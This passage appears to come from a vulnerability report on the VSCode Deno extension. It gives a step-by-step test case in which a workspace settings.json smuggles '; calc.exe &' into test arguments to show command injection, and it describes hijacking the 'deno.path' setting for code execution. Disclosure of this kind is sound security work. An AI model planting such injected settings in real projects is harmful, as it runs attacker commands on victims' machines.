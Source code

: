   - Security Test Case:
    1. Create a new directory named `vscode_deno_test_exploit`.
    2. Inside `vscode_deno_test_exploit`, create a subdirectory named `.vscode`.
    3. Inside `.vscode`, create a file named `settings.json` with the following content:
       ```json
       {
           "deno.enable": true,
           "deno.codeLens.testArgs": [
               "--allow-all",
               "; calc.exe &"
           ]
       }
       ```
       *(Note: `calc.exe` is used as a benign payload for demonstration on Windows. For other OS, use a similar harmless command like `xcalc` or `gnome-calculator` or `open /Applications/Calculator.app/` on macOS, or `touch /tmp/pwned` on Linux/macOS)*
    4. Inside `vscode_deno_test_exploit`, create a file named `test.ts` with the following content:
       ```typescript
       Deno.test("Vulnerability Test", () => {
           console.log("Test running");
       });
       ```
    5. Open the `vscode_deno_test_exploit` directory in VSCode. Ensure the Deno extension is enabled for this workspace.
    6. Open the `test.ts` file. You should see the "Run Test" code lens above the `Deno.test` definition.
    7. Click on the "Run Test" code lens.
    8. Observe that the calculator application (`calc.exe` or equivalent) is launched, demonstrating command injection.

- Vulnerability Name: Command Injection via `deno.path` setting

  - Description:
    1. A threat actor could socially engineer a victim to configure the `deno.path` setting in VSCode to point to a malicious executable instead of the legitimate Deno CLI.
    2. This could be achieved through phishing, misleading instructions, or by tricking the victim into importing and using a malicious configuration file.
    3. Once the `deno.path` setting points to the malicious executable, any operation within VSCode that invokes the Deno CLI (like starting the language server, running tests, formatting, etc.) will execute the malicious script.
    4. The malicious script, having replaced the legitimate Deno CLI, can then execute arbitrary commands on the victim's system.

  - Impact:
    - Remote Code Execution (RCE). An attacker can execute arbitrary commands on the victim's machine with the privileges of the VSCode process by replacing the Deno executable.

  - Vulnerability Rank: High

  - Currently Implemented Mitigations:
    - The extension checks if the provided path in `deno.path` exists and is an executable file. However, it does not verify if the executable is actually the legitimate Deno CLI or a malicious replacement.
